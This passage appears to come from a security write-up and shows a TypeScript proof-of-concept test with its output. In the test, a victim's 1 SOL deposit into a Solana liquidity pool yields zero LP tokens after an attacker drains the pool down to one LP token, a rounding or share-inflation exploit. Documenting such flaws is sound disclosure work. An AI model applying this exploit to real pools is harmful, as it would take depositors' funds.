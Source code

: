```ts
    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        victimKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );

    // ATA for the LP Mint
    victimLpAccount = await getAssociatedTokenAddress(
      lpMintPubkey,
      victimKeypair.publicKey,
      true,
      TOKEN_PROGRAM_ID,
      ASSOCIATED_TOKEN_PROGRAM_ID
    );

    const victimDepositAmount = new anchor.BN(1 * LAMPORTS_PER_SOL);

    await program.methods
    .depositSol(victimDepositAmount)
    .accounts({
      pool: poolAccount,
      user: victimKeypair.publicKey,
      solVault: solVault,
      lpMint: lpMintPubkey,
      userLpAccount: victimLpAccount,
      systemProgram: SystemProgram.programId,
      tokenProgram: TOKEN_PROGRAM_ID,
      associatedTokenProgram: ASSOCIATED_TOKEN_PROGRAM_ID,
    })
    .preInstructions([
      createAssociatedTokenAccountInstruction(
        victimKeypair.publicKey,
        victimLpAccount,
        victimKeypair.publicKey,
        lpMintPubkey
      )
    ])
    .signers([victimKeypair])
    .rpc();

    const lpMintBalanceVictim = (await splTokenGetAccount(provider.connection, victimLpAccount)).amount;
    console.log(" Victim LP amount after deposit: ", lpMintBalanceVictim);
  });
});
```

After running we should see the following output:
```
Vault amount before deposit:  890880
 User amount before deposit:  1000000000000
Vault amount after deposit:  890881
 User amount after deposit:  999997960719
LP Mint balance:  890881n
- Withdraw sufficient amaount of SOL, so that 1 LP token is left
Vault amount after withdrawal:  890880
 User amount after withdrawal:  999997960720
 Attacker LP amount after withdrawal:  1n
 Victim LP amount after deposit:  0n
    ✔ Deposit and Withdraw SOL PoC 1 (2822ms)
```
